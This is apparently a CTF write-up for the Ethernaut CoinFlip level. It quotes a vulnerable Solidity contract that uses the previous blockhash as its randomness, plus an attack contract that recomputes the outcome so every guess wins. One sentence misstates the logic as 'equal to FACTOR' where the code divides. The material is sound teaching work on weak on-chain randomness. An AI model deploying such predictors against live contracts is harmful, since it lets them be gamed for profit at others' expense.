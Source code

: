 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel3.svg">

# Target Contract Review

Given conract.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0; 
      return false;
    }
  }
}
```

Challenge's message.
>This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

We have contract which can increase consecutiveWins with be flying blind. To be more precise, in the **_flip()_** function set a variable call **blockValue** help with keeping the hash of the previous block number as uint256. If lasthash doesn't equal to blockValue, lasthash will be blockValue's value. Afterwards, if blockValue equal to FACTOR which is defined in the start, side variable will be true. Other senarious, side variable will be false. Lastly, if our guess is same with side, consecutiveWins **will be increased**.

## Global Variables in Solidity

In solidity, there are some variables which can call from everyone. **_block.number_** is one of them. In this case, we can access to current block number of chain. Thus, we make always **correct guess**. More about [Global Variables](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html#special-variables-and-functions).

# Subverting

My attack contract.
```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract Attack{

    CoinFlip coinflip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target){
        coinflip = CoinFlip(_target);
    }

    function flip() external{
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint flip = blockValue/FACTOR;
        bool choice  = flip == 1 ? true : false;
        coinflip.flip(choice);
    }

    function showWins() external view returns(uint){
        return coinflip.consecutiveWins();
    }
}
```
Firstly, get our target contract address. Then set blockValue and choice as in target contract. And then send our guess to flip() function in the target contract.


**_by wasny0ps_**
